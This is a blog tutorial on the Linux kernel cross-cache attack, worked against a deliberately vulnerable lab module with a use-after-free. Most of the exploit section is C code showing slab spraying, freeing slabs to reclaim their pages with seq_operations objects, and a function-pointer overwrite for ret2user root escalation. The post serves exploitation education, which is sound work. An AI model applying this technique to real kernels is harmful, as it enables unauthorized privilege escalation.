 ```yaml
---
title: Linux Kernel Exploitation - Cross-Cache Attack
date: 2025-04-27
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain cross-cache attack, a fundamental technique for advanced Linux kernel exploitation. Understanding this technique is important to understand other exploitation techniques, such as Dirty PageTable and DirtyCred, which I will cover in future posts. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/cross-cache-attack) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, write to, and free objects defined as follows:
```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` and `obj_free` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
The cache is created in `module_initialize`:
```c
static int __init module_initialize(void) {
    if (misc_register(&vuln_dev) != 0) {
        return -1;
    }
    obj_cachep = KMEM_CACHE(obj, 0);
    if (!obj_cachep) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. Since we already have a write primitive, it's natural to think about overlapping freed objects with some useful kernel objects, like `struct seq_operations` or `struct tty_struct`, to overwrite function pointers and control RIP. However, we cannot simply do this, since the objects are allocated from a dedicated cache. This is where cross-cache attack comes in.

## Cross-Cache Attack
The main idea of cross-cache attack is to turn a dangling reference to an object into a dangling reference to its underlying pages. As you may know, kernel objects are allocated from slab caches, which consist of one or more slabs. Each slab is made up of `2^order` pages and contains `objs_per_slab` objects. These values can be found in /sys/kernel/slab/\<CACHE_NAME\>.

When all objects in a slab are freed, underlying pages are returned to the buddy allocator if the following additional conditions are met:
- The slab is not the active slab
- The per-cpu partial slab list is full

This technique is extremely powerful. It lets us ideally overlap victim objects with any kernel object.

## Exploitation
First, we allocate `objs_per_slab * (cpu_partial + 1)` objects to prepare `cpu_partial + 1` slabs, which will later be used to fill the per-cpu partial slab list:
```c
int objs_per_slab = 8;
int cpu_partial = 52;
int num_sprary = objs_per_slab * (cpu_partial + 1);

for (int i = 0; i < num_sprary; i++) {
    obj_alloc(i);
}
```
Next, we allocate one object to create a new active slab:
```c
obj_alloc(num_sprary);
```
Next, we free the objects in the slabs obtained in the first step to fill the per-cpu partial slab list and release the underlying order-0 pages. To increase the reliability, we only free all objects in even-numbered slabs. This is because if continuous pages are freed, the buddy allocator will merge them and treat them as higher-order pages, which makes it more difficult to reclaim them later:
```c
for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        for (int j = i; j < i + objs_per_slab; j++) {
            obj_free(j);
        }
    } else {
        obj_free(i);
    }
}
```
Next, we allocate a large number of `struct seq_operations` and make the order-0 pages freed in the previous step be used as the kmalloc-32 slabs. Since kmalloc-32 also uses order-0 pages, the attack has a high chance of success:
```c
int seqfds[0x20];
for (int i = 0; i < 0x20; i++) {
    seqfds[i] = open("/proc/self/stat", O_RDONLY);
    assert(seqfds[i] >= 0);
}
```
Finally, we use `CMD_WRITE` to overwrite function pointers in `struct seq_operations` and control RIP. Since SMAP, SMEP, KASLR, and KPTI are disabled, we can easily escalate privileges via ret2user:
```c
char payload[0x8];
*(unsigned long *)&payload = (unsigned long)escalate_privilege;

for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        obj_write(i, payload, 0x8);
    }
}

for (int i = 0; i < 0x20; i++) {
    read(seqfds[i], payload, 1);
}
```
By running this exploit, we can achive root privileges and see the flag:

![win](/assets/img/posts/2025-04-27-1/win.png)

## References
1. Awarau and pql. 2022. CVE-2022-29582. https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary
2. Imran Khan. 2022. Linux SLUB Allocator Internals and Debugging, Part 1 of 4. https://blogs.oracle.com/linux/post/linux-slub-allocator-internals-and-debugging-1